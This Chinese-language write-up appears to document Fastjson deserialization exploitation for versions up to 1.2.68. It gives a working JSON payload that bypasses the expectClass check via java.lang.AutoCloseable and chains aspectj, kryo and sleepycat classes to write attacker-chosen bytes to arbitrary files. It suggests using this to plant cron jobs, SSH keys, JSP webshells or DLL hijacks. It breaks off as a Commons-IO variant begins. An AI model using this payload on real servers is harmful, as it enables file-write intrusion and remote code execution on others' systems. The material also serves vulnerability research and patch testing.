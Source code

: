 又是另一个大版本系列，因为黑名单的限制极大约束了JNDI类型的利用，所以后面就把漏洞利用方式移到了期望类(expectClass)上，观察下面的Poc，基本上的都是使用的java.lang.AutoCloseable绕过期望类，同时将利用思路转移到文件读写操作上。
关于文件读写的危害：既然探测到存在漏洞，便可通过文件写操作写入计划任务、ssh密钥、dll劫持、写入jsp木马(非spring，能解析jsp)、写入jar包启动加载等等，读文件就不说了，配置文件、敏感文件等。
## 写文件利用
### 依赖比较多，条件苛刻
```xml
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjtools</artifactId>
    <version>1.9.5</version>
</dependency>
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.0</version>
</dependency>
<dependency>
    <groupId>com.sleepycat</groupId>
    <artifactId>je</artifactId>
    <version>5.0.73</version>
</dependency>
```
buffer处为写入文件的base64编码字符串，position为对应的解码后数据的字节长度，需设置正确，否则报错。若原字符串包含中文字符则一个字符的字节长度为2。
```json
{
"stream": {
"@type": "java.lang.AutoCloseable",
"@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
"targetPath": "e:/ddd.txt",
"tempPath": "e:/test.txt"
},
"writer": {
"@type": "java.lang.AutoCloseable",
"@type": "com.esotericsoftware.kryo.io.Output",
"buffer": "cXdlcmFzZGY=",
"outputStream": {
"$ref": "$.stream"
},
"position": 8
},
"close": {
"@type": "java.lang.AutoCloseable",
"@type": "com.sleepycat.bind.serial.SerialOutput",
"out": {
"$ref": "$.writer"
}
}
}
```
### Commons-IO 2.0 - 2.6
JDK8: 1.2.37<=FastJson<=1.2.68
JDK11: 1.2.57<=FastJson<=1.2.68
```xml
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.6</version>
</dependency>
```
需保证在数据传入时长度必须大于8192(8KB)才会写入到文件，且只会写入前8KB
```java
```